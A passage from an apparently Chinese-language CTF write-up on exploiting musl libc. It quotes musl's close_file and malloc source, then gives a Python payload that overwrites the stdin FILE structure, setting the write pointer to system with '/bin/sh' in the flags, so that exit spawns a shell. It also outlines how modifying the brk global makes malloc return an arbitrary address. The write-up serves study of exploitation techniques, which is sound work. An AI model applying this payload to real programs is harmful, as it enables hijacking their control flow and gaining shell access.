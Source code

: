 ```c
// src/stdio/__stdio_exit.c L8-L14
static void close_file(FILE *f)
{
	if (!f) return;
	FFINALLOCK(f);
	if (f->wpos != f->wbase) f->write(f, 0, 0);  <---
	if (f->rpos != f->rend) f->seek(f, f->rpos-f->rend, SEEK_CUR);
}
```
翻阅源码，发现`exit`函数后来调用`__stdio_exit`函数来关闭所有打开的文件流。在`close_file`函数中，如果文件流`f`符合条件`f->wpos != f->wbase`，则调用`f`文件结构体上的`write`函数指针：`f->write(f, 0, 0)`。

```python
payload  = "/bin/sh\x00"    # stdin->flags
payload += 'X' * 32
payload += p64(0xdeadbeef)  # stdin->wpos
payload += 'X' * 8
payload += p64(0xbeefdead)  # stdin->wbase
payload += 'X' * 8
payload += p64(system)      # stdin->write

edit(stdin, payload)
```

触发 FSOP 的条件十分简单：只要向`stdin`结构体的首 8 字节写入`/bin/sh\x00`，将`write`指针指向`system`函数，令`stdin->wpos != stdin->wbase`，最后调用`exit`函数即可拿到 shell。

除了`exit`函数之外，`scanf`、`printf`和`puts`之类的标准 IO 库函数里面也有类似的 FSOP 触发点。有兴趣的话可以自行翻阅相关函数的源码。

### 4.4 返回 0xBADBEEF

但是想要调用`exit`函数，`malloc`返回的地址必须为`0xBADBEEF`，`0xBADBEEF`显然不是一个合法的内存地址。而通过修改 libc 内部一个名为`brk`的全局变量，不但将`0xBADBEEF`变为一个能够正常访问的地址，还能让`malloc`返回该地址。

```c
// src/malloc/malloc.c L303-L315
void *malloc(size_t n)
{

[...]

	for (;;) {
		uint64_t mask = mal.binmap & -(1ULL<<i);
		// 若所有的可用 bin 均为空，调用 expand_heap 函数延展堆空间，生成新的 chunk
		if (!mask) {
			c = expand_heap(n);  <---
			if (!c) return 0;
			// 向前合并空闲 chunk
			if (alloc_rev(c)) {
				struct chunk *x = c;
				c = PREV_CHUNK(c);
				NEXT_CHUNK(x)->psize = c->csize =
					x->csize + CHUNK_SIZE(c);
			}
			break;
		}

[...]
}
```
